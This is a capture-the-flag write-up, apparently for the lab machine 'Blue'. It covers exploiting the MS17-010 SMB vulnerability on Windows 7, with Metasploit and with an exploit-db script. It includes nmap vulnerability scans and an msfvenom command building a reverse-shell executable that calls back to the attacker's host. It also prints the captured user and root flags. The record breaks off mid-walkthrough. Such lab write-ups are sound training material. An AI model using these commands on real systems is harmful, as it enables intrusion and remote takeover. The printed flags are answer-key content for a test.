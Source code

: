 # Blue
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, let's scan the host given using nmap.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210548655-c761e148-c1bf-4b32-a17e-8c1a72c690fb.png)


![image](https://user-images.githubusercontent.com/70703371/210548679-5dd82615-0a4e-44e9-a4bf-2cd51961c46b.png)


2. Based from the output, we know that port 445 shall be our interests, because it seems running some types of network shares. Remember that 139 & 445 is SMB port, so let's check nmap scripts about `smb-vuln`. Now only what now we know that we're working with `windows 7`.
3. Simply run this command:

```
ls /usr/share/nmap/scripts | grep smb-vuln
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210548775-11ed93fa-0149-40a9-920a-1257c94d9989.png)


4. Now let's use all of them for port 139 & 445.

```
nmap --script smb-vuln* -p 139,445 10.10.10.40
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210548814-20b88593-4861-4a8e-a675-e21edf35b868.png)


5. As we can see the vuln here is we can do RCE, also we got the link references:

![image](https://user-images.githubusercontent.com/70703371/210548936-bad60e4f-f1df-4909-83f4-d59a102c7e0e.png)


6. Anyway, i will try to use the **metasploit** first, then i'll try to solve it without metasploit.

### WITH METASPLOIT

1. First, open **msfconsole**, then input this command -> `search ms17-010`

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210549303-6f6bd9b9-3f1f-410c-b3af-6df4c444cee0.png)


2. The modules we want to use must be `0` , `2`, and `3`. But let's try with `0` and `2` first.

```
Reason:
The 1st module -> Is intended for windows 8, which is not the system.
The 3rd module -> Is auxiliary, though it says command execution, let's put is last. 
The 4th module -> Is a scanner.
The 5th module -> Is using a backdoor (must be on the system already).
```

3. Let's type `use 0`.

> RESULT - set the RHOSTS and lhost

![image](https://user-images.githubusercontent.com/70703371/210550559-ac898d76-deac-4ca8-8222-543969989a1d.png)

4. Type `exploit`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210550767-4e327376-f153-4d65-bfdf-3e1ffbb8dbcb.png)


![image](https://user-images.githubusercontent.com/70703371/210550828-15d51f7d-6a90-4a73-96f7-c55d5ab6a9d5.png)


5. Great! Turns out we're already the root.
6. Let's set the mode to stable shell.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210550911-30353853-3911-433f-91c0-2970f22412fb.png)


7. When i tried to list all the directories, we got many directories. But our interest here is to jump to the `Users` or `users` directory.
8. Let's try one of them.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551510-4fe09bf9-069e-4536-b46f-1988c57e440a.png)


9. Got it, now let's lists it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551605-019e6678-2cef-4fb8-a707-34de82dfb9fc.png)


10. Let's jump to `harris` -> `Desktop`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551720-de8cc37e-ad94-460d-9dd5-86acebb56073.png)


![image](https://user-images.githubusercontent.com/70703371/210551749-b6f42d66-1e49-4390-b906-5e30048ebe5c.png)


11. Got the user flag!

## USER FLAG (WITH METASPLOIT)

```
32e24b1a214c952a07446d5317505f5a
```

12. Now to get the root, let's jump to the `Administrator` directory, then go to `Desktop`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551976-4e651bfd-1885-4582-b0ed-53acb1b7fad5.png)


![image](https://user-images.githubusercontent.com/70703371/210552024-5810ae0c-fcf4-4075-af40-2de49d59ad91.png)


13. Got the root flag!

## ROOT FLAG (WITH METASPLOIT)

```
0f6cf23df2d2c550f6c7f42eab29077c
```


### WITHOUT METASPLOIT APPROACH

1. Now without the metasploit, let's see if there's any python script we can use in the `exploitdb`.

```
searchsploit ms17-010
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210553394-148e224b-539a-4d3b-ba17-c575aea9bfbb.png)


2. Since we're working with windows 7, let's download this one:

![image](https://user-images.githubusercontent.com/70703371/210553802-74515538-e44c-40e6-bd79-0f0d65091f96.png)


```
searchsploit -m 42315
```


![image](https://user-images.githubusercontent.com/70703371/210554128-f7c81f1a-c0b9-4039-8ffa-01978ed64d5e.png)


3. Anyway let's try to run the script to see if there are any python requirement we need to install first.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210554324-943b11a3-a895-43ed-90bb-7994c09a1183.png)


> SOLUTION - THE LINK IS COMMENTED INSIDE THE SCRIPT

![image](https://user-images.githubusercontent.com/70703371/210554824-fa5a49a4-151d-46ae-95f1-a1257efec6f5.png)


4. Since the repository is no longer available, i used this one:

```
https://github.com/worawit/MS17-010/blob/master/mysmb.py
```

5. Hence we got 2 scripts now.

![image](https://user-images.githubusercontent.com/70703371/210555874-7f47e553-e85c-4ff0-9698-332d4e5bef0e.png)


6. Next, we need to use **msfvenom** to generate a simple executeable which has reverse shell payload.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 -f exe > reverseShell.exe
```

> RESULT


![image](https://user-images.githubusercontent.com/70703371/210556365-cb542630-1c0b-4676-acee-0c03d90141d9.png)


7. Now we need to change the exploit to add credentials, since we don't have any creds, let's check with `enum4linux` whether the machine allows us to enter guest username.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210557036-2218b368-de11-4687-b0d7-44b598d5088c.png)


8. Great we're allowed then.




